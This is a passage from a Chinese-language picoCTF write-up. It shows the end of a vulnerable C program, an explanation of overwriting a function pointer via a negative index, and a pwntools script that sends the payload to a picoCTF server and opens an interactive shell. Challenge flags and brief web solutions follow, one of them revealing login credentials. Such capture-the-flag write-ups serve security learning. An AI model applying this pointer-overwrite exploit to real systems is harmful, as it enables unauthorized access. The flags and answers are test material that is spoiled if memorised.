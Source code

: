 ```C
  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

需要将函数指针check从hard_checker改为easy_checker。因为hard_checker会检查输入的story所有字节的ASCII码之和是否为13371337，由于输入长度有限，这显然不可能，而easy_checker则检查和是否为1337，可以实现。后面有一个在指定地址修改值的操作，使用负数绕过检查修改函数指针的值即可。

payload：

```python\
from pwn import *

# io = process('./vuln')
io = remote('saturn.picoctf.net', 54514)

io.sendlineafter(b'Tell me a story and then I\'ll tell you if you\'re a 1337 >> ', b'A' * 20 + b'%')

io.sendlineafter(b'On a totally unrelated note, give me two numbers. Keep the first one less than 10.', b'-16 -314\n')

io.interactive()
```

picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}

# 2. web 部分

web没有系统学过，但是有的题过于简单，也能做。

## 1. Includes

打开网页直接F12调出源码即可。

picoCTF{1nclu51v17y_1of2_f7w_2of2_df589022}

## 2. Inspect HTML

打开网页直接F12调出HTML即可。

picoCTF{1n5p3t0r_0f_h7ml_1fd8425b}

## 3. Local Authority

先随便输然后提交，报错之后直接F12调出源代码即可获取用户名为admin，密码为strongPassword098765。
